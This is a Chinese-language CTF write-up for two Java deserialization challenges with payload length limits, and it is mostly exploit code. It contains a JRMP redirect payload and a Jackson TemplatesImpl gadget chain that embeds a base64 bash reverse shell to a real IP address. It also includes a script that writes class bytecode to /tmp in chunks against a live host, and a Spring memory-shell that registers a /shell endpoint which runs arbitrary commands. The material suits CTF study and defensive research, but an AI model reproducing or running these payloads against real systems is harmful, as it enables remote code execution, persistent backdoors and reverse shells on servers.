



# i-short-you1

```java
@Controller
public class BackdoorController {
    @GetMapping({"/backdoor"})
    @ResponseBody
    public String hack(@RequestParam String payload) throws Exception {
        if (payload.length() > 220) {
            return "hacker!!!";
        }
        byte[] bytes = Base64.getDecoder().decode(payload);
        new ObjectInputStream(new ByteArrayInputStream(bytes)).readObject();
        return "success";
    }
}
```

给了一个反序列化入口，但限制Base64编码后的payload不能超过220。

看了一下项目依赖，只有`spring-boot-starter-web`，显然打Jackson原生反序列化（可以参考这篇文章👉https://xz.aliyun.com/t/12846，作者分析了原版利用链的不足，参考yso里JSON链提出了稳定版的Jackson链）

注意到Dockerfile里JDK的版本为`8u202`，可以打JRMP二次反序列化。

大概原理讲一下，就是目标反序列化后会作为客户端向我们指定的服务器发起JRMP请求，服务器返回恶意序列化数据，客户端会进行反序列化。这样子长度占大头的jackson链就通过JRMP通信传过去了，来到达长度绕过的效果。（`JEP290`提出来的时候只修复了RMI服务端的反序列化问题，加了白名单，客户端的问题直到`JDK 8u231`才修复）

yso的`exploit.JRMPListener`可以用来启动恶意JRMP服务器，但yso没有jackson链，需要我们自己加一下

yso的`payloads.JRMPClient`用来生成发起JRMP请求的payload，但稍微有点长了，可以简化一下

（yso里用`RemoteObjectInvocationHandler`又封装了一层，但看调用栈实际执行的`UnicastRef#readExternal`）

```java
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.rmi.server.ObjID;
import java.util.Base64;
import java.util.Random;

public class Short1 {
    public static void main(String[] args) throws Exception {
        ObjID id = new ObjID(new Random().nextInt());
        TCPEndpoint te = new TCPEndpoint("43.136.40.245", 1234);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        ser(ref);
    }

    public static void ser(Object o) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);

        String s = Base64.getEncoder().encodeToString(baos.toByteArray());
        System.out.println(s);
        System.out.println(s.length());  // 124
    }
}
```

简单改一下yso，增加`ysoserial.payloads.JSON2`（这里用的是不稳定的版本）

```java
package ysoserial.payloads;

import javassist.ClassPool;
import javassist.CtClass;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.CtConstructor;
import javassist.CtMethod;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;

public class JSON2 {
    public JSON2() {}
    
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static Object getPayload() throws Exception{
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(ctMethod);
        ctClass.toClass();

        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80My4xMzYuNDAuMjQ1LzgwODEgMD4mMQ==}|{base64,-d}|{bash,-i}\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "test");
        setValue(templates, "_tfactory", null);

        POJONode pojo = new POJONode(templates);

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd, "val", pojo);

        return bd;
    }
}
```

`exploit.JRMPListener`改一下



`mvn clean package -DskipTests`编译一下

`java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1234`



# i-short-you2

和上一题差不多，不过环境变成不出网，长度不能超过3333。

```java
@GetMapping({"/backdoor"})
@ResponseBody
public Object hack(@RequestParam String payload) throws Exception {
    if (payload.length() > 3333) {
        return "hacker";
    }
    byte[] bytes = Base64.getDecoder().decode(payload);
    try {
        new ObjectInputStream(new ByteArrayInputStream(bytes)).readObject();
    } catch (Exception e) {
        e.printStackTrace();
        return e;
    }
    return "success";
}
```

问题就在于对于payload长度的限制下，如何解决回显。

回显可以考虑注入内存马，但一个内存马就会占很大长度了。

可以分段传输字节码，将其临时存储在一个文件中，最后再进行加载。这时就肯定要用稳定版本的链子了。

Jackson稳定版传个弹计算器的字节码都3536了，不稳定版的只要2120。

稳定版的就多了一层动态代理`JdkDynamicAopProxy`，最开始想着找有没有其他更简洁的`InvocationHandler`，看了一圈它的实现类，无果。

`transient`和`static`修饰的字段默认不会被反序列化，尝试用`javassist`修改没用的字段为`transient`，发现短了不少。具体修改了哪些字段见下面的代码。

最后加载字节码文件时碰到了几个坑，我用的`URLClassLoader`去加载，但tomcat有自己的一套双亲委派机制，得指定`URLClassLoader`的父类加载器为当前上下文类加载器才能加载到`org.springframework`、`javax.servlet`这些包下的类。

另外由于需要多次构造类字节码，需要每次类名都不同，否则本地会报错说类已经加载过了。

```java
import javassist.ClassPool;
import okhttp3.HttpUrl;
import okhttp3.OkHttpClient;
import okhttp3.Request;
import okhttp3.Response;

import java.util.Arrays;
import java.util.Base64;

public class Exp {
    public static OkHttpClient client = new OkHttpClient();

    public static void main(String[] args) throws Exception {
        byte[] bytes1 = ClassPool.getDefault().get("MemShell").toBytecode();
        byte[] bytes2 = ClassPool.getDefault().get("MemShell$Shell").toBytecode();
        String dstPath1 = "/tmp/MemShell.class";
        String dstPath2 = "/tmp/MemShell$Shell.class";

        sendFileWritePayload(bytes1, dstPath1);
        sendFileWritePayload(bytes2, dstPath2);

        System.out.println("loading start...");
        Thread.sleep(2000);

        String loadClazz = "new java.net.URLClassLoader(new java.net.URL[]{\n" +
                "                new java.net.URL(\"file:///tmp/\")\n" +
                "        }, Thread.currentThread().getContextClassLoader()).loadClass(\"MemShell\").newInstance();";

        sendPayload(JSON.getPayload(loadClazz));
//        JSON.getPayload("{java.lang.Runtime.getRuntime().exec(\"calc\");}");
    }

    public static void sendFileWritePayload(byte[] bytes, String dst) throws Exception {
        int offset = 0;
        int length = 120;
        while (offset < bytes.length) {
            if (offset + length > bytes.length) {
                length = bytes.length - offset;
            }
            String encoded = Base64.getEncoder().encodeToString(Arrays.copyOfRange(bytes, offset, length + offset));
            String payload = "{String encoded = \"" + encoded + "\";\n" +
                    "java.io.FileOutputStream fos = new java.io.FileOutputStream(\"" + dst + "\", true);\n" +
                    "fos.write(java.util.Base64.getDecoder().decode(encoded), 0, " + length + ");\n" +
                    "fos.close();}";
            sendPayload(JSON.getPayload(payload));
            offset += length;
        }
    }

    public static void sendPayload(String payload) throws Exception {
//        HttpUrl.Builder urlBuilder = HttpUrl.parse("http://127.0.0.1:8082/backdoor").newBuilder();
        HttpUrl.Builder urlBuilder = HttpUrl.parse("http://139.224.232.162:32735/backdoor").newBuilder();
        urlBuilder.addQueryParameter("payload", payload);
        Request request = new Request.Builder()
                .url(urlBuilder.build().toString())
                .build();
        Response response = client.newCall(request).execute();
        System.out.println(response.body().string());
        Thread.sleep(800);
    }
}
```

```java
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.*;
import javassist.bytecode.AccessFlag;
import org.springframework.aop.framework.AdvisedSupport;
import sun.misc.Unsafe;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Random;

public class JSON {
    private static final String CHARACTERS = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";

    static {
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
            CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
            ctClass.removeMethod(writeReplace);
            ctClass.toClass();

            CtClass confClazz = pool.get("org.springframework.aop.framework.ProxyConfig");
            String[] transConf = new String[] {
                    "optimize", "proxyTargetClass", "opaque", "exposeProxy", "frozen"
            };
            for(String name : transConf) {
                CtField f = confClazz.getDeclaredField(name);
                f.setModifiers(f.getModifiers() | AccessFlag.TRANSIENT);
            }

            CtClass asClazz = pool.get("org.springframework.aop.framework.AdvisedSupport");
            String[] transAdvise = new String[] {
                    "interfaces", "preFiltered",
            };
            for(String name : transAdvise) {
                CtField f = asClazz.getDeclaredField(name);
                f.setModifiers(f.getModifiers() | AccessFlag.TRANSIENT);
            }

            asClazz.toClass();

            CtClass proxyClazz = pool.get("org.springframework.aop.framework.JdkDynamicAopProxy");
            String[] transProxy = new String[] {
                    "proxiedInterfaces", "equalsDefined", "hashCodeDefined"
            };
            for(String name : transProxy) {
                CtField f = proxyClazz.getDeclaredField(name);
                f.setModifiers(f.getModifiers() | AccessFlag.TRANSIENT);
            }
            proxyClazz.toClass();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public JSON() {
    }

    public static String generateRandomString(int length) {
        Random random = new Random();
        StringBuilder sb = new StringBuilder(length);

        for (int i = 0; i < length; i++) {
            int randomIndex = random.nextInt(CHARACTERS.length());
            char randomChar = CHARACTERS.charAt(randomIndex);
            sb.append(randomChar);
        }
        return sb.toString();
    }

    public static String getPayload(String body) throws Exception {
        POJONode node = new POJONode(makeTemplatesImplAopProxy(body));
        // BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Object val = unsafeConstruct(Class.forName("javax.management.BadAttributeValueExpException"));
        setFieldValue(val, "val", node);
        return serialize(val);
    }

    public static void setFieldValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static String serialize(Object o) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);

        String s = Base64.getEncoder().encodeToString(baos.toByteArray());
        int len = s.length();
        if (len > 3333) {
            System.out.println("too long! " + len);
            System.exit(0);
        }
        System.out.println(len);
        oos.close();
//        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
//        ois.readObject();
        return s;
    }

    public static Object unsafeConstruct(Class<?> name) throws Exception {
        Class clazz = Class.forName("sun.misc.Unsafe");
        Field getUnsafe = clazz.getDeclaredField("theUnsafe");
        getUnsafe.setAccessible(true);
        Unsafe unsafe = (Unsafe) getUnsafe.get(null);
        return unsafe.allocateInstance(name);
    }

    public static Object makeTemplatesImplAopProxy(String body) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(makeTemplatesImpl(body));
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        return proxy;
    }

    public static Object makeTemplatesImpl(String body) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass(generateRandomString(5));
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody(body);
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", bytes);
        setFieldValue(templates, "_name", "x");
        return templates;
    }
}
```

```java
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.Scanner;

public class MemShell {
    public MemShell() throws Exception {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Field configField = mappingHandlerMapping.getClass().getDeclaredField("config");
        configField.setAccessible(true);
        RequestMappingInfo.BuilderConfiguration config =
                (RequestMappingInfo.BuilderConfiguration) configField.get(mappingHandlerMapping);
        URLClassLoader loader = new URLClassLoader(new URL[]{
                new URL("file:///tmp/")
        }, Thread.currentThread().getContextClassLoader());
        Class<?> shell = loader.loadClass("MemShell$Shell");
        Method method = shell.getDeclaredMethods()[0];
        RequestMappingInfo info = RequestMappingInfo.paths("/shell")
                .options(config)
                .build();
        mappingHandlerMapping.registerMapping(info, shell.newInstance(), method);
    }

    public static class Shell {
        public Shell() {
        }

        public void inject(HttpServletRequest request, HttpServletResponse response) throws IOException {
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
            }
        }
    }
}
```

sb了，这题异常信息直接返回了。

```java
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import javassist.CtMethod;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;

public class JSON2 {
    static {
        try {
            CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
            CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
            ctClass.removeMethod(ctMethod);
            ctClass.toClass();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public JSON2() {
    }

    public static void main(String[] args) throws Exception {
        System.out.println(getPayload("{java.io.BufferedReader br = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(\"ipconfig\").getInputStream()));\n" +
                "        String line;\n" +
                "        StringBuilder sb = new StringBuilder();\n" +
                "        while ((line = br.readLine()) != null) {\n" +
                "            sb.append(line).append(\"\\n\");\n" +
                "        }\n" +
                "        throw new Exception(sb.toString());}"));
        new Exception("");
    }

    public static String getPayload(String body) throws Exception {
        POJONode node = new POJONode(makeTemplatesImpl(body));
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        setFieldValue(val, "val", node);

        return serialize(val);
    }

    public static void setFieldValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static String serialize(Object o) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);

        String s = Base64.getEncoder().encodeToString(baos.toByteArray());
        int len = s.length();
        if (len > 3333) {
            System.out.println("too long! " + len);
            System.exit(0);
        }
        System.out.println(len);
        oos.close();
//        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
//        ois.readObject();
        return s;
    }

    public static Object makeTemplatesImpl(String body) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody(body);
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", bytes);
        setFieldValue(templates, "_name", "x");
        return templates;
    }
}
```

链子要是不稳定多打几次应该可以。


